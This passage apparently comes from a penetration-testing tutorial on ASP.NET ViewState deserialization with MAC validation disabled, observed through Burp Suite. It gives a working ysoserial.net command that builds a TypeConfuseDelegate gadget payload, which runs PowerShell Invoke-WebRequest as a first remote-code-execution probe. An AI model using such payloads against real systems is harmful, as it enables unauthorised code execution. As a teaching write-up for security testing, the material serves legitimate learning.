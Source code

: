 



Burp displays information that MAC is not enabled; this should trigger our attention. In the Pro version of burp suite, such a case is automatically triggered as potential vulnerability.

Let’s try to generate a payload using ysoserial.net and put it into the viewstate parameter. The payload will perform a simple HTTP request, since this is the appropriate approach before trying more specific RCE payloads.

```cmd
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"
```



![](./assets/25.png)





![](./assets/26.png)



![](./assets/27.png)
